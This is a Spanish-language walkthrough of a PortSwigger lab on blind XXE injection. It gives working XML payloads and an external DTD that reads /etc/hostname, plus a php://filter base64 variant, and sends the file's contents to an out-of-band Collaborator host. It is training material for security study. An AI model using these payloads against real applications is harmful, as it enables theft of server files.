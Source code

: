 ```yaml
---
title: XXE Injection Lab 5
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Exploiting blind XXE to exfiltrate data using a malicious external DTD
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Exploiting blind XXE to exfiltrate data using a malicious external DTD

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una función de `Check stock` que analiza `entradas XML`, pero `no muestra el resultado`. Para resolver el laboratorio, hay que extraer el contenido del archivo `/etc/hostname`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-5/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-5/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-5/image_3.png)

`Enviamos` una `petición` con un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE` pero no vemos nada interesante en la `respuesta`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y pulsamos en `Copy to clipboard`, este `dominio` obtenido lo vamos a usar para construir este `payload`, el `%` sirve para `llamar` a la `entidad` desde el `DTD` creado

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y observamos que hemos `obtenido respuesta`, lo cual quiere decir que ya tenemos un `XXE out-of-band interaction`

![](/assets/img/XXE-Injection-Lab-5/image_4.png)

Lo que podemos hacer ahora que hemos confirmado que podemos `cargar` un `recurso` del `servidor externo` es pulsar en `Go to exploit server`, introducir este `payload` en la parte de `Body` y pulsar sobre `Store` para almacenarlo. Esto `&#x25` es `%` pero en `hexadecimal`, se debe poner así y no en el formato normal para que funcione correctamente

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com?content=%file;'>">
%eval;
%exfil;
```

En este laboratorio no funciona, pero podríamos usar este `wrapper` de `php` para `encodear` el `output` del `comando` en `base64` si es más de una línea

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com?content=%file;'>">
%eval;
%exfil;
```

Lo siguiente que debemos hacer es irnos a donde pone `Craft response`, copiar la url `https://exploit-0aa200cb045beea1d8e97fad01f20055.exploit-server.net/exploit` y `enviar` la `petición`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0aa200cb045beea1d8e97fad01f20055.exploit-server.net/exploit"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Ahora nos vamos a `Burpsuite Collaborator`, pulsamos en `Resquest to Collaborator` y vemos el `/etc/hostname `

![](/assets/img/XXE-Injection-Lab-5/image_5.png)

`Submiteamos` la `solución` y `completamos` el `laboratorio`

![](/assets/img/XXE-Injection-Lab-5/image_6.png)
